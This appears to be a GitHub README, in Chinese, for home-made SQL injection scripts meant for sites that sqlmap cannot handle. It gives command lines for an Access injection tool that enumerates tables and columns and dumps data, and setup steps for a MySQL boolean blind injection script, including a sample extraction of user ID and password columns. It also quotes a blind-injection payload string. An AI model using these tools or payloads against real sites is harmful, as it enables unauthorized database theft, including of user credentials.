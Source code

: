 # 1.写这些脚本的目的

解决sqlmap不能跑的站点，并且手工注入又会消耗大量的时间和精力的情况。

# 2.用法

## 2.1 ACCESS-Injection

Blog ： http://47.95.206.199/?p=419
```bash
python3 inj.py -u Url --tables --keyword=true_page_keyword [--thread=20] #爆表名,--thread参数可选，默认为10

python3 inj.py -u Url -T table_name --columns --keyword=true_page_keyword [--thread=20] #爆表名

python3 inj.py -u Url -T table_name -C col_name1,col_name2... --dump --keyword=keyword[--thread=20] #爆数据
```
## 2.2 MYSQL-Bind-injection

Blog ： http://47.95.206.199/?p=364

1>第一处
```python
#Target URL
url = "http://targetURL//index.php?a=index&f=ilist&p="
#keyword 用于判断页面是否正确
keyword ="keyword"
```
将代码开头的URL和keyword修改
2>第二处：需要使用什么功能就把什么功能的代码注释取消即可，至于该改的table_name,column_name自己改一下
```python
    info = Info()
    #注入当前数据库的用户
    #info.user()
    #注入数据库的版本
    #info.version()
    #注入当前数据库的名字
    #info.database()
    #注入表名
    #run()
    #注入列名
    run_column("shi_user")
    #注入数据
    #columnL = ["uid","pwd"]
    #run_value("pw_user",*columnL)```
    
3>爆列中数据的时候，列名请填写两个，在程序写死了，如果需要多个列名请修改第334行代码：

e.g.三个列
```python
payload = "-1 or ascii(substr((select concat(%s,0x7c,%s,0x7c,%s) from %s limit %s,1),%s,1))=%s" \
% (self.column[0],self.column[1],self.column[2],self.table, self.i, x, n)
```
# 3.目录

```html
###########
├── Readme.md               // 帮助文档 
├── ACCESS-Injection        // ACCESS的逐字猜解法脚本
│   ├── injection.py        //主程序
│   ├── table.txt           //常用表名，来自sqlmap
│   ├── column.txt          //常用列名，来自sqlmap
├── MYSQL-Bind-injection    //mysql基于布尔盲注的脚本
│   ├── injection.py        //主程序

```
